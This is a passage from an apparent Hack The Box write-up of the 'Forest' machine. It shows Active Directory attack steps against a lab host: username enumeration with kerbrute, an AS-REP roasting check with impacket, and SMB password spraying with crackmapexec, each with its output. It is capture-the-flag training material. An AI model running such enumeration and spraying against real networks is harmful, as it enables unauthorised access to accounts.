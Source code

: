 `administrator`, `forest` need to be added. But other than that, there's no other newly found users.

```swift
┌──(kali㉿kali)-[~/htb]
└─$ kerbrute_linux_arm64 userenum --dc 10.10.10.161 -d htb.local usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 12/02/24 - Ronnie Flathers @ropnop

2024/12/02 15:32:43 >  Using KDC(s):
2024/12/02 15:32:43 >   10.10.10.161:88

2024/12/02 15:32:43 >  [+] VALID USERNAME:       andy@htb.local
2024/12/02 15:32:43 >  [+] VALID USERNAME:       administrator@htb.local
2024/12/02 15:32:43 >  [+] VALID USERNAME:       lucinda@htb.local
2024/12/02 15:32:43 >  [+] VALID USERNAME:       sebastien@htb.local
2024/12/02 15:32:43 >  [+] VALID USERNAME:       santi@htb.local
2024/12/02 15:32:43 >  [+] VALID USERNAME:       forest@htb.local
2024/12/02 15:32:43 >  [+] VALID USERNAME:       mark@htb.local
2024/12/02 15:32:43 >  Done! Tested 7 usernames (7 valid) in 0.126 seconds
```

Let's check if there's any user has `pre-auth` unset. This will be useful for `AS-REPRoasting`

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-GetNPUsers -dc-ip 10.10.10.161 -usersfile usernames.txt htb.local/
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User forest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

### SMB(139,445)

Let's try password-spraying with `usernames.txt`

```scss
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.161 -u usernames.txt -p usernames.txt 
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing RDP protocol database
[*] Initializing LDAP protocol database
[*] Initializing SMB protocol database
[*] Initializing MSSQL protocol database
[*] Initializing WINRM protocol database
[*] Initializing SSH protocol database
[*] Initializing FTP protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:sebastien STATUS_LOGON_FAILURE 
```